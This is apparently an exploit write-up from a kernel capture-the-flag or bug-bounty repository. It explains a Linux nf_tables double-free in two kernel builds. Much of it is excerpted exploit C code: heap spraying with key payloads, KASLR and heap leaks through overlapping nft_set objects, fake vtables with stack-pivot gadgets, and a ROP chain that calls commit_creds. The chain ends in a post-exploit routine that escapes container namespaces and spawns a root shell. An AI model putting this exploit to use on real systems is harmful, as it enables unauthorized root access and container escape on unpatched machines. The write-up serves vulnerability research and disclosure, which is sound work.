

- [include/linux/pipe_fs_i.h:pipe_buf_release()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/include/linux/pipe_fs_i.h?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n177)
```c
static inline void pipe_buf_release(struct pipe_inode_info *pipe,
				    struct pipe_buffer *buf)
{
	const struct pipe_buf_operations *ops = buf->ops;

	buf->ops = NULL;
	ops->release(pipe, buf);
}
```
- [exploit/extra-refined/exploit.c#L1037](../exploit/extra-refined/exploit.c#L1037)
```c
printf("[+] will start with gadget addr %p\n", curr_gadget->pivot_gadget_cg_1_offset + kaslr_slide);

// and trigger ROP!
for (int i = 0; i < 0x100; i++)
{
	close(pipefd[i][0]);
	close(pipefd[i][1]);
}
```

Then, if we close the pipefd with `close` syscall,  it will trigger RIP control through `ops->release` function pointer and initiate the execution of our ROP payload.

- [exploit/extra-refined/exploit.c#L99](../exploit/extra-refined/exploit.c#L99)
```c
// push rsi ; jmp qword ptr [rsi + 0x39]
uintptr_t pivot_gadget_cg_1_offset;
// pop rsp ; ret
uintptr_t pivot_gadget_cg_2_offset;
```
- [exploit/extra-refined/exploit.c#L976](../exploit/extra-refined/exploit.c#L976)
```c
uintptr_t pipe_buffer_addr = small_msg_msg_addr + 0x400;
*(uintptr_t *)(buf_ptr) = curr_gadget->pivot_gadget_cg_2_offset + kaslr_slide;        // page
*(uintptr_t *)(buf_ptr + 8) = pipe_buffer_addr + 0x50;                                // offset / len
*(uintptr_t *)(buf_ptr + 0x10) = pipe_buffer_addr + 0x18;                             // ops
*(uintptr_t *)(buf_ptr + 0x20) = curr_gadget->pivot_gadget_cg_1_offset + kaslr_slide; // ops->release

*(uintptr_t *)(buf_ptr + 0x39) = curr_gadget->pivot_gadget_cg_2_offset + kaslr_slide;
```
For fake `ops` and stack pivot, we use the current chunk's address as `ops` and store pivot gadgets' address as a fake function. Since the current chunk address is passed by `rsi` register, we used the above pivot gadgets to pivot the kernel stack to the current chunk.

- [exploit/extra-refined/exploit.c#L984](../exploit/extra-refined/exploit.c#L984)
```c
// ...and write the ROP payload
uintptr_t *gadget_start = (uintptr_t *)(buf_ptr + 0x50);
int idx = 0;
// rax = prepare_kernel_cred(&init_task);
gadget_start[idx++] = curr_gadget->pop_rdi_ret_offset + kaslr_slide;
gadget_start[idx++] = curr_gadget->init_task_offset + kaslr_slide;
gadget_start[idx++] = curr_gadget->prepare_kernel_cred_offset + kaslr_slide;

// commit_creds(rax);
gadget_start[idx++] = curr_gadget->pop_rsi_ret_offset + kaslr_slide;
gadget_start[idx++] = pipe_buffer_addr + 0x200 + 0x7f;
gadget_start[idx++] = curr_gadget->push_rax_jmp_qptr_rsi_7f_offset + kaslr_slide;
gadget_start[idx++] = curr_gadget->commit_creds_offset + kaslr_slide;

// rax = find_task_by_vpid(1)
gadget_start[idx++] = curr_gadget->pop_rdi_ret_offset + kaslr_slide;
gadget_start[idx++] = 1;
gadget_start[idx++] = curr_gadget->find_task_by_vpid_offset + kaslr_slide;

// switch_task_namespaces(rax, &init_namespace);
gadget_start[idx++] = curr_gadget->pop_rsi_ret_offset + kaslr_slide;
gadget_start[idx++] = pipe_buffer_addr + 0x200 + 0x7f;
gadget_start[idx++] = curr_gadget->push_rax_jmp_qptr_rsi_7f_offset + kaslr_slide;
gadget_start[idx++] = curr_gadget->pop_rsi_ret_offset + kaslr_slide;
gadget_start[idx++] = curr_gadget->init_nsproxy_offset + kaslr_slide;
gadget_start[idx++] = curr_gadget->switch_task_namespaces_offset + kaslr_slide;

// End the ROP and return to user mode
gadget_start[idx++] = curr_gadget->ret2user_gadget_offset + kaslr_slide;
gadget_start[idx++] = 0;
gadget_start[idx++] = 0;
save_state();
// for prevent xmm segfault on usermode
rsp &= ~0xf;
rsp += 8;
gadget_start[idx++] = post_exploit;
gadget_start[idx++] = cs;
gadget_start[idx++] = rflags;
gadget_start[idx++] = rsp;
gadget_start[idx++] = ss;

*(uintptr_t *)(buf_ptr + 0x200) = curr_gadget->pop_rdi_ret_offset + kaslr_slide;
```
After the pivot gadget sequences are executed, the kernel stack is pivoted into `chunk_address` + 0x50.  
The ROP chain performs followings for privilege escalation and container escape.
- `commit_creds(prepare_kernel_creds(&init_task));`
	- Allocate new kernel-privileged cred and install it into the current process. This escalates the current task's privilege to root.
- `switch_task_namespace(find_task_by_vpid(1), &init_nsproxy)`
	- Switch the container root process’s nsproxy to init_nsproxy. This prepares the container escape.
- `swapgs_restore_regs_and_return_to_usermode`
	- Finish the ROP and resume the execution into usermode.

The above code is for crafting the ROP payload with kernel functions and gadgets set from [initialization step](#51-initialize-kernel-image-specific-values). Note that we modified the usermode `rsp` value to prevent segfault by unaligned `rsp` value when executing AVX instructions on the post-exploit step.

- [exploit/extra-refined/exploit.c#L271](../exploit/extra-refined/exploit.c#L271)
```c
static void save_state()
{
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "pushfq\n"
        "popq %2\n"
        "movq %%rsp, %3\n"
        : "=r"(cs), "=r"(ss), "=r"(rflags), "=r"(rsp)
        :
        : "memory");
}
```
`save_state` function stores the current usermode status such as `cs`, `ss`, `rflags`, `rsp`, and `ss`. These register values are used when the kernel ROP returns to usermode. 

After this step, the current exploit can acquire root privilege and escape the namespace container.

### 6.7 Post exploitation

In this step, the exploit succeeds and privileged escalation and container escape is ready. Finally, the exploit performs miscellaneous steps for a container-escaped root shell.

- [exploit/extra-refined/exploit.c#L702](../exploit/extra-refined/exploit.c#L702)
```c
void post_exploit(void)
{
    printf("[+] exploit success!!\n");
    // spin the parent
    if (fork())
    {
        for (;;)
            ;
    }
    // move to safe cpu
    // to prevent access to corrupted freelist
    set_cpu_affinity(1, 0);
    sleep(1);

    // escape pid/mount/network namespace
    setns(open("/proc/1/ns/mnt", O_RDONLY), 0);
    setns(open("/proc/1/ns/pid", O_RDONLY), 0);
    setns(open("/proc/1/ns/net", O_RDONLY), 0);

    printf("[+] now drop the shell\n");

    // drop root shell
    execlp("/bin/bash", "/bin/bash", NULL);
    exit(0);
}
```
After the kernel ROP is done, control flow returns to `post_exploit` function on userland.
The `post_exploit` function performs the following.
- Fork the process and spin the parent process. This is to avoid touching corrupted percpu freelist by parent process or other tasks as possible.
- On the child process, change the task's CPU affinity to avoid touching the original CPU's corrupted percpu freelist.
- Call `setns(open("/proc/1/ns/{mnt, pid, net}", O_RDONLY), 0)` and switch the current task's mount/pid/network namespaces into container-root process's one to escape from containers
- Call `system(“/bin/bash”)` to drop root-privileged host shell.

After these steps, the exploitation is finished and we can read the flag from the root directory with the root shell.

## 7. COS-15-17412-101.17 Instance

In this section, we discuss the exploit in detail for `cos-105-17412-101.17` instances.

- Linux commit [33758c891479ea1c736abfee64b5225925875557](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=33758c891479ea1c736abfee64b5225925875557)
>
> nftables replaces iptables, but it lacks memcg accounting.
> 
> This patch account most of the memory allocation associated with nft and should protect the host from misusing nft inside a memcg restricted container.
>

Before Linux v5.19, the Netfilter nf_tables objects are allocated into `kmalloc` caches, not the accounted `kmalloc-cg` caches. Since the `cos-105-17412-101.17` is based on Linux v5.15.109, the double-freed chunks are created into `kmalloc-1k` cache.

### 7.1 Overview
This exploit takes the following steps:
1. Preparation for post-PC control and barrier objects
3. Triggering vulnerability for overlapping chunks
4. Heap and KASLR leak
5. PC control for ROP
6. ROP for Kernel shellcode
7. Post exploitation

### 7.2 Preparation for post-PC control and barrier objects

- [exploit/extra-refined/exploit.c#L54](../exploit/extra-refined/exploit.c#L54)
```c
#define TARGET_COMM 0xdeadbeefcafebabe
```
- [exploit/extra-refined/exploit.c#L1059](../exploit/extra-refined/exploit.c#L1059)
```c
uint64_t comm[2] = {TARGET_COMM, 0};
if (prctl(PR_SET_NAME, comm, NULL, NULL, NULL) < 0)
{
	perror("prctl");
}
```
We set its own `comm` with `prctl` syscall to `TARGET_COMM`(0xdeadbeefcafebabe), which is the special magic value. This value is used for post-PC control steps to identify the exploit task. Details will be explained later.

- [exploit/extra-refined/exploit.c#L1067](../exploit/extra-refined/exploit.c#L1067)
```c
// init user_keys for freelist barrier
for (int i = 0; i < KEY_SPRAY_CNT; i++)
{
	snprintf(name_buf, sizeof(name_buf), "key_%d", i);
	if ((keys[i] = add_key("user", name_buf, buf, 0x1f8, KEY_SPEC_PROCESS_KEYRING)) < 0)
		perror("add_key");
}
``` 

The exploit also sprays a `struct user_key_payload` object `KEY_SPRAY_CNT` (10) times with the `add_key` syscall. These objects are used as freelist barrier, which prevents kernel crashes after percpu freelist is corrupted.

### 7.3 Triggering vulnerability and chunk overlapping

In this step, the exploit triggers the vulnerability to create double-freed chunks into `kmalloc-1k` slab and reclaims them with `struct user_key_payload` objects for further exploit steps.

- [exploit/extra-refined/exploit.c#L1075](../exploit/extra-refined/exploit.c#L1075)
```c
nl = mnl_socket_open(NETLINK_NETFILTER);
if (nl == NULL)
{
	err(1, "Cannot into mnl_socket_open()");
}

if (mnl_socket_bind(nl, 0, MNL_SOCKET_AUTOPID) < 0)
{
	err(1, "Cannot into mnl_socket_bind()");
}

// setup table and chains
printf("[*] prepare table and chain...\n");
prepare_nftables(nl);

printf("[*] now trigger UAF...\n");
trigger_uaf(nl, NOCG_TARGET_SET_SIZE);
```
Triggering the vulnerability to achieve double free is almost the same as with `lts-6.1.31` exploit except that the size of the double-freed chunk is set to 1k (1024).

- [include/keys/user-type.h:user_key_payload](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/include/keys/user-type.h?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n27)
```c
struct user_key_payload {
	struct rcu_head	rcu;		/* RCU destructor */
	unsigned short	datalen;	/* length of this data */
	char		data[] __aligned(__alignof__(u64)); /* actual data */
};
```
However, unlike the `lts-6.1.31` exploit, the `struct msg_msg` objects are no longer utilizable because they would be allocated from `kmalloc-cg` slabs. Thus, the exploit employs `struct user_key_payload` object, which gives the capability to control chunks except for the first 0x18 (24) bytes.

- [exploit/extra-refined/exploit.c#L1093](../exploit/extra-refined/exploit.c#L1093)
```c
// overlapping user_key_payload and nft_set
memset(buf, 0, 0x200);
if ((key = add_key("user", "abcdefghijklmnop", buf, 0x1f8, KEY_SPEC_PROCESS_KEYRING)) < 0)
	perror("add_key");
```
The `struct user_key_payload` objects are allocated to reclaim the one of double-freed chunks by `add_key` syscall. Note that the length argument for `add_key` syscall is set to 0x1f8 (504). This is because of the allocation pattern of `struct user_key_payload`.

- [security/keys/key.c:add_key()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/security/keys/key.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n816)
```c
SYSCALL_DEFINE5(add_key, const char __user *, _type,
		const char __user *, _description,
		const void __user *, _payload,
		size_t, plen,
		key_serial_t, ringid)
{
// ...
	/* pull the payload in if one was supplied */
	payload = NULL;

	if (plen) {
		ret = -ENOMEM;
		payload = kvmalloc(plen, GFP_KERNEL);
		if (!payload)
			goto error2;

		ret = -EFAULT;
		if (copy_from_user(payload, _payload, plen) != 0)
			goto error3;
	}

// ...

	/* create or update the requested key and add it to the target
	 * keyring */
	key_ref = key_create_or_update(keyring_ref, type, description,
				       payload, plen, KEY_PERM_UNDEF,
				       KEY_ALLOC_IN_QUOTA);
// ...
	kvfree_sensitive(payload, plen);
// ...
```
First, the `payload` chunk is allocated with the size of `plen`, which is the syscall argument that is passed by usermode. After copying user-supplied content into `payload`, `key_create_or_update` function the `user_preparse` function invoked with the allocated `payload`. After returning from `key_create_or_update` function, the `payload` chunk is freed at the end of the `add_key` syscall.

- [security/keys/key.c:key_create_or_update()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/security/keys/key.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n816)
```c
key_ref_t key_create_or_update(key_ref_t keyring_ref,
			       const char *type,
			       const char *description,
			       const void *payload,
			       size_t plen,
			       key_perm_t perm,
			       unsigned long flags)
{
// ...
	if (index_key.type->preparse) {
		ret = index_key.type->preparse(&prep);
// ...
```
- [security/keys/user_defined.c:user_preparse()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/security/keys/user_defined.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n59)
```c
int user_preparse(struct key_preparsed_payload *prep)
{
	struct user_key_payload *upayload;
	size_t datalen = prep->datalen;

	if (datalen <= 0 || datalen > 32767 || !prep->data)
		return -EINVAL;

	upayload = kmalloc(sizeof(*upayload) + datalen, GFP_KERNEL);
	if (!upayload)
		return -ENOMEM;

	/* attach the data */
	prep->quotalen = datalen;
	prep->payload.data[0] = upayload;
	upayload->datalen = datalen;
	memcpy(upayload->data, prep->data, datalen);
	return 0;
}
```
From `key_create_or_update` function, `user_preparse` function is invoked to allocate the `struct user_key_payload` object with the size of (`datalen` + `sizeof(struct user_key_payload)`) and copy the contents stored in `payload` into an allocated `struct user_key_payload` object.

Since the `add_key` syscall triggers two allocations and one free, we need to control the size to reclaim exactly one chunk from the certain cache. The size of 0x1f8 (504) bytes works for `kmalloc-1k` cache as the allocation-free sequence below.
- `payload` is allocated with 0x1f8 (504) bytes (from `kmalloc-512` cache)
- `struct user_key_paylaod` object is allocated with (0x1f8 + 0x18) = 0x210 (528) bytes (from `kmalloc-1k` cache)
- `payload` is freed (from `kmalloc-512` cache)

After this step, the double-freed chunks on `kmalloc-1k` is reclaimed by `struct user_key_payload` objects and get control over overlapping chunks.

### 7.4 Heap and KASLR leak

In this step, the exploit achieves desired heap leak and KASLR leak at once by utilizing `struct nft_set` object.

Unlike the `struct msg_msg`, `struct user_key_payload` does not contain useful fields to achieve arbitrary read/write or arbitrary free. Thus, we need to overlap other useful objects with `struct user_key_payload` objects to acquire exploit primitives.
- [net/netfilter/nf_tables.h:nft_set](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/include/net/netfilter/nf_tables.h?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n504)
```c
struct nft_set {
	struct list_head		list;
	struct list_head		bindings;
	struct nft_table		*table;
	possible_net_t			net;
	char				*name;
	u64				handle;
	u32				ktype;
	u32				dtype;
	u32				objtype;
	u32				size;
	u8				field_len[NFT_REG32_COUNT];
	u8				field_count;
	u32				use;
	atomic_t			nelems;
	u32				ndeact;
	u64				timeout;
	u32				gc_int;
	u16				policy;
	u16				udlen;
	unsigned char			*udata;
	/* runtime data below here */
	const struct nft_set_ops	*ops ____cacheline_aligned;
	u16				flags:14,
					genmask:2;
	u8				klen;
	u8				dlen;
	u8				num_exprs;
	struct nft_expr			*exprs[NFT_SET_EXPR_MAX];
	struct list_head		catchall_list;
	unsigned char			data[]
		__attribute__((aligned(__alignof__(u64))));
};
```
With some analysis, we found that the `struct nft_set` itself gives the powerful capability to perform both heap leak and KASLR leak, and even RIP control. (refer [Usage of `struct nft_set` as a novel target object section of novel-techniques.md](./novel-techniques.md#usage-of-struct-nft_set-as-a-novel-target-object))
- [exploit/extra-refined/exploit.c#L1093](../exploit/extra-refined/exploit.c#L1093)
```c
// overlapping user_key_payload and nft_set
memset(buf, 0, 0x200);
if ((key = add_key("user", "abcdefghijklmnop", buf, 0x1f8, KEY_SPEC_PROCESS_KEYRING)) < 0)
	perror("add_key");

// reclaim it with new set
prepare_reclaim_set(nl, RECLAIM_SET_NAME, NOCG_TARGET_SET_SIZE);
```
Thus, we decide to allocate `struct nft_set` object again to overlap it with `struct user_key_payload` object, regardless of triggering the vulnerability.

Notice that we allocate only one `struct user_key_payload` object. This is because the allocate routines of the `struct nft_set` also trigger allocation on `kmalloc-1k` cache for skb construction. 
```
[   23.912852]  __alloc_skb+0x8f/0x260
[   23.913133]  netlink_sendmsg+0x348/0x4d0
[   23.913438]  sock_sendmsg+0x5f/0x70
[   23.913669]  __sys_sendto+0x113/0x160
[   23.913920]  __x64_sys_sendto+0x20/0x30
[   23.914156]  do_syscall_64+0x42/0x90
```
The call trace above shows the allocation path of the given `cos-105-17412-101.17` kernel image.

- [exploit/extra-refined/exploit.c#L1101](../exploit/extra-refined/exploit.c#L1101)
```c
// and check overlap for kernel heap leak + KASLR leak
int key1;
char *key_buf = malloc(0x10000);
memset(key_buf, 0, sizeof(key_buf));
ret = keyctl(KEYCTL_READ, key, key_buf, 0x10000, 0);
if (ret < 0)
	perror("keyctl");
uintptr_t *payload = key_buf;
// for(int i = 0; i < 0x20; i++){
//     printf("%d : 0x%llx\n", i, payload[i]);
// }

uintptr_t kaslr_slide = payload[0x15] - curr_gadget->nft_set_ops_offset;
printf("[+] kaslr_slide : %p\n", kaslr_slide);

// address of struct nft_set (overlapping with struct user_key_payload)
uintptr_t nft_set_addr = payload[0] - 0x10; // binding.prev
printf("[+] nft_set addr : %p\n", nft_set_addr);
```
Because of the useful fields of `struct nft_set`, we didn't need to search for other objects or craft additional primitives. We can leak necessary information directly by reading the overlapped `struct user_key_payload` with `keyctl` syscall.

The following fields are overwritten or leaked and used for further exploit steps.
- The `datalen` field of `struct user_key_payload` is overwritten by `bindings.next` field of `struct nft_set`, which is the kernel pointer and large enough to read the key payload as we want.
- The list entries such as `bindings` or `catchall_list` contains the pointer that points itself. We utilized the `bindings.next` fields to leak the own chunk address (from `kmalloc-1k`).
- The `ops` holds a per-set type vtable pointer, which is located in the kernel data section. This can be utilized for KASLR leak.



- [security/keys/user_defined.c:user_read()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/security/keys/user_defined.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n171)
```c
long user_read(const struct key *key, char *buffer, size_t buflen)
{
	const struct user_key_payload *upayload;
	long ret;

	upayload = user_key_payload_locked(key);
	ret = upayload->datalen;

	/* we can return the data as is */
	if (buffer && buflen > 0) {
		if (buflen > upayload->datalen)
			buflen = upayload->datalen;

		memcpy(buffer, upayload->data, buflen);
	}

	return ret;
}
```
- [security/keys/keyctl.c:keyctl_read_key()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/security/keys/keyctl.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n825)
```c
long keyctl_read_key(key_serial_t keyid, char __user *buffer, size_t buflen)
{
// ...
	key_data_len = (buflen <= PAGE_SIZE) ? buflen : 0;
	for (;;) {
		if (key_data_len) {
			key_data = kvmalloc(key_data_len, GFP_KERNEL);
			if (!key_data) {
				ret = -ENOMEM;
				goto key_put_out;
			}
		}

		ret = __keyctl_read_key(key, key_data, key_data_len);

		/*
		 * Read methods will just return the required length without
		 * any copying if the provided length isn't large enough.
		 */
		if (ret <= 0 || ret > buflen)
			break;

		/*
		 * The key may change (unlikely) in between 2 consecutive
		 * __keyctl_read_key() calls. In this case, we reallocate
		 * a larger buffer and redo the key read when
		 * key_data_len < ret <= buflen.
		 */
		if (ret > key_data_len) {
			if (unlikely(key_data))
				kvfree_sensitive(key_data, key_data_len);
			key_data_len = ret;
			continue;	/* Allocate buffer */
		}

		if (copy_to_user(buffer, key_data, ret))
			ret = -EFAULT;
		break;
	}
// ...
}
```
Note that the `user_read` function uses `memcpy` to copy the key payload into the kernel scratch buffer. After copying the key contents, the scratch buffer is again copied to the userland by `copy_to_user` function. Thanks to this behavior, slab overread through `struct user_key_payload` is not hindered by `CONFIG_USERCOPY_HARDENED` config.

After this step, the heap leak and KASLR leak for further exploit steps is acquired. 

### 7.5 PC control for ROP

In this section, the exploit achieves RIP control through vtable overwrite and performs ROP for arbitrary kernel code execution, using the heap leaks and KASLR leaks from previous steps.

- [exploit/extra-refined/exploit.c#L1196](../exploit/extra-refined/exploit.c#L1196)
```c
// free the chunk and reclaim with our fake nft_set
if (keyctl(KEYCTL_REVOKE, key, 0, 0, 0) < 0)
{
	perror("keyctl(KEYCTL_REVOKE)");
}
// [1]
sleep(1); // key is released by rcu, let's wait for a while...
if ((key = add_key("user", "yeeeeeeeeeet", buf, 0x1f8, KEY_SPEC_PROCESS_KEYRING)) < 0)
	perror("add_key");
```
Recall that the `struct nft_set` objects contain `ops` fields, which is the vtable pointer and can be used for RIP control. The exploit overwrites `struct nft_set` object to corrupt `ops` fields, by freeing the overlapping `struct user_key_payload` object and reclaiming again with the same objects containing the proper payload.

- [security/keys/user_defined.c:user_revoke()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/security/keys/user_defined.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n128)
```c
void user_revoke(struct key *key)
{
	struct user_key_payload *upayload = user_key_payload_locked(key);

	/* clear the quota */
	key_payload_reserve(key, 0);

	if (upayload) {
		rcu_assign_keypointer(key, NULL);
		call_rcu(&upayload->rcu, user_free_payload_rcu); // [2]
	}
}
```
Note that the `struct user_key_payload` objects are freed by RCU [2], so we need to wait several CPU cycles to ensure the chunks are actually freed [1].

- [exploit/extra-refined/exploit.c#L1205](../exploit/extra-refined/exploit.c#L1205)
```c
// reclaim to overwrite should be done
// now populate the kmalloc-1k cache to avoid
// touching corrupted freelist
for (int i = 0; i < KEY_SPRAY_CNT; i++)
{
	if (keyctl(KEYCTL_REVOKE, keys[i], 0, 0, 0) < 0)
		perror("keyctl");
}
sleep(1); // key is released by rcu, let's wait for a while...
```
Again, the percpu freelist of `kmalloc-1k` cache is corrupted due to the reclamation of double-freed chunks. To prevent the kernel crashing, the exploit populates the `kmalloc-1k` caches by releasing the `struct user_key_payload` objects which are allocated in the [preparation step](#72-preparation-for-post-pc-control-and-barrier-objects).

- [exploit/extra-refined/exploit.c#L1215](../exploit/extra-refined/exploit.c#L1215)
```c
// delete nft_set to trigger ROP chian!
// notice that this ROP chain is run on worker context
release_reclaim_set(nl, RECLAIM_SET_NAME);
```

- [net/netfilter/nf_tables_api.c:nft_commit_release()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n8434)
```c
static void nft_commit_release(struct nft_trans *trans)
{
// ...
	case NFT_MSG_DELSET:
		nft_set_destroy(&trans->ctx, nft_trans_set(trans));
		break;
// ...
```

- [net/netfilter/nf_tables_api.c:nft_set_destroy()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n4671)
```c
static void nft_set_destroy(const struct nft_ctx *ctx, struct nft_set *set)
{
	int i;

	if (WARN_ON(set->use > 0))
		return;

	for (i = 0; i < set->num_exprs; i++)
		nft_expr_destroy(ctx, set->exprs[i]);

	set->ops->destroy(set);
	nft_set_catchall_destroy(ctx, set);
	kfree(set->name);
	kvfree(set);
}
```
Finally, the exploit deletes the overwritten `struct nft_set` object to trigger RIP control through `set->ops->release` function pointer and initiates the ROP.



- [exploit/extra-refined/exploit.c#L101](../exploit/extra-refined/exploit.c#L101)
```c
// push rdi ; jmp qword ptr [rsi + 0x39]
uintptr_t pivot_gadget_nocg_1_offset;
// pop rsp ; pop r13 ; pop r14 ; pop r15 ; jmp 0xffffffff81004130 (nop ; ret)
uintptr_t pivot_gadget_nocg_2_offset;
// add rsp, 0xc8 ; jmp 0xffffffff82204200 (ret)
uintptr_t pivot_gadget_nocg_3_offset;
```
Since the current chunk address is stored in `rdi` and `rsi` registers, the exploit can pivot the kernel stack to the current chunk by using the above pivot gadgets.

- [net/netfilter/nf_tables_api.c:nft_set_lookup](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n3798)
```c
static struct nft_set *nft_set_lookup(const struct nft_table *table,
				      const struct nlattr *nla, u8 genmask)
{
	struct nft_set *set;

	if (nla == NULL)
		return ERR_PTR(-EINVAL);

	list_for_each_entry_rcu(set, &table->sets, list) {
		if (!nla_strcmp(nla, set->name) &&
		    nft_active_genmask(set, genmask))
			return set;
	}
	return ERR_PTR(-ENOENT);
}
```
- [exploit/extra-refined/exploit.c#L1123](../exploit/extra-refined/exploit.c#L1123)
```c
 // fake nft_set with ROP primer
*(uintptr_t *)(buf_ptr + 0x18) = curr_gadget->pivot_gadget_nocg_3_offset + kaslr_slide; // [3]
*(uintptr_t *)(buf_ptr + 0x30) = nft_set_addr + 0xd8;                                   // name
*(uintptr_t *)(buf_ptr + 0x39) = curr_gadget->pivot_gadget_nocg_2_offset + kaslr_slide; // [2]
*(uintptr_t *)(buf_ptr + 0x60) = 0;                                                     // field_count, use
*(uintptr_t *)(buf_ptr + 0xc0) = nft_set_addr + 0xd0 - 0x68;                            // ops => gonna call ->destroy [+0x68]
*(uintptr_t *)(buf_ptr + 0xc8) = 0;                                                     // flags, genmask, klen, dlen, num_exprs
*(uintptr_t *)(buf_ptr + 0xd0) = curr_gadget->pivot_gadget_nocg_1_offset + kaslr_slide; // [1]
strcpy(buf_ptr + 0xd8, RECLAIM_SET_NAME);
```
